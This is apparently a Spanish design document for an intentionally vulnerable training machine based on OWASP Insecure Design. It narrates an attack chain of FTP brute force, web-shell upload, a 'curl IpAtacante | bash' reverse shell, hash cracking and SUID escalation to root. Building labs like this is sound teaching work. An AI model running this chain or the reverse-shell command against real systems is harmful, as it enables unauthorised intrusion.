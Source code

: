 # **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.

El servicio **FTP** podrá ser accesible de forma anónima.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

****

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **secret**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una herramienta de **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **Elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **Elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **Elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **Elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **Elijah** podrá ver que puede visualizar un directorio **Elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **Elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **secret** dentro de la web y verá que dentro de **secret** existe **Elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **Elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, encontraremos una imagen del persone **Caroline**. dicha imagen tendrá un zip llamado **backupPasswords.zip** en **/var/www/**, cifrado con una contraseña, la cual podremos crackear con **zip2john** para obtener el **hash** y despues crackear el **hash** con la herramienta de **John**.

Cuando hagamos el unzip del fichero, el atacante verá otro fichero con muchas contraseñas, y utilizará estas contraseñas para acceder con otro usuario del sistema llamado **Caroline**, de esta forma podrá **moverse lateralmente** a este usuario.

Con el usuario **Caroline**, podremos visualizar la flag **user.txt** en el directorio **/home/caroline/**, además el atacante verá que tiene permisos de SUID sobre un fichero en especifico, el cual este permiso le permitirá escalar sus privilegios al usuario de root.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd* version 3.0.3 --> Para transferencia de archivos.
- **SSH**: *OpenSSH 9.6p1*/7.2p2 --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.58* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**
